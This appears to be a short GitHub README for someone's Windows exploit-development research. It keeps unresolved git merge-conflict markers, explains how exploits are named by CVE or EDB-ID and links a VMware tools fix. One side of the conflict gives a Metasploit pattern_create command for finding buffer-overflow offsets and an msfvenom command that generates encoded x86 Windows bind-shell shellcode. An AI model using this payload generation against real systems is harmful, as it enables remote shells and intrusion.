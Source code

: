 ## Windows research
<<<<<<< HEAD
If a CVE isn't provided, I'm using the EDB-ID where the vulnerable application originates from.
If the exploit doesn't have an EDB-ID, I'll title the application name.
Fixing VmWare's tools
https://nicostein.com/vmware-alias-manager-and-ticket-service-vgauthservice-fails-after-vmware-tools-upgrade/
Generating a pattern
/usr/share/metasploit-framework/tools/exploit/./pattern_create.rb -l 1000
Generating Shellcode
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp LHOST=10.0.1.49 LPORT=1234 -e x86/shikata_ga_nai -b '\x00\x0A\x0D' -i 3 -f python
=======
<br>If a CVE isn't provided, I'm using the EDB-ID where the vulnerable application originates from.
<br>If the exploit doesn't have an EDB-ID, I'll title the application name.
<br>Fixing VmWare's tools
<br>https://nicostein.com/vmware-alias-manager-and-ticket-service-vgauthservice-fails-after-vmware-tools-upgrade/
>>>>>>> 1711e6bb0369d77c88d9241140f50bacf19f5561
